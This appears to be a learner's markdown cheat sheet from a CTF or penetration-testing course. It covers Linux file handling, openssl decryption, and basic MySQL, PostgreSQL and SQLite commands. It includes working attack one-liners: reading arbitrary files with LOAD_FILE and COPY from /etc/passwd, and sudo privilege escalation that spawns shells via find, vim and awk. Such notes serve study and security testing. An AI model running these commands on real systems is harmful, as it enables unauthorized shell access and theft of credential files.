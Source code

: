 
## Day 1
#### find /dir -type f-name name -exec grep -H '^keyword' {} \;

### Decompressing files
#### tar -xjf file.tbz
#### tar -xzf file.tgz
#### bunzip2 file.bz2

### Encrypting and Decrypting files with openssl
https://robertheaton.com/2013/07/29/padding-oracle-attack/
#### openssl enc -d -aes256 -k KEY -in enc.tgz.enc -out out.tgz

#### Data stays longer in /var/tmp then /tmp dir

### Cronjobs
Never leave credentials in cron jobs.

<!-- $1 = md5crypt $5 = sha256 $6 = sha512 -->
### See services runing in a system
#### ps -edf

### Intresting Directory
#### /var/lib/mysql/mysql

### Read arbitary file when logged in as mysql using load_file() function
#### SELECT LOAD_FILE('/var/lib/password.txt');

### Postgresql 
#### psql 

| List Database | Connect To Database | List Tables | Read Data from Tables | Create Table |
| ---|---| --- | --- | --- |
| \list | \c database_name | \d | SELECT * FROM table_name; | CREATE TABLE tname(column data); |

| Copy Arbitary File to Table | DELETE TABLE |
| --- | --- |
| COPY tname '/etc/passwd'; | DROP TABLE tname; |

### Sqlite 
Poratble Database
|List Tables| Read Data From Table |
|---| -- |
|.tables| SELECT * FROM tablename;|

### Privilege Escalation abusing find command
##### sudo -u user find /etc -name passwd -type f -exec bash \;
##### sudo -u user find /usr/bin -name password.txt -type f -exec cat {} \;

### Privilege Escalation abusing vim
##### sudo -u user vim -c ':!/bin/sh'

### Privilege Escalation abusing awk
##### sudo -u victim awk 'BEGIN {system("/bin/sh")}'
##### sudo -u victim awk {'print $1'} ~/flag.txt

### Create wordlist for testing opensource projects
#### find | sed 's/\.//g' > ffufwordlist.txt

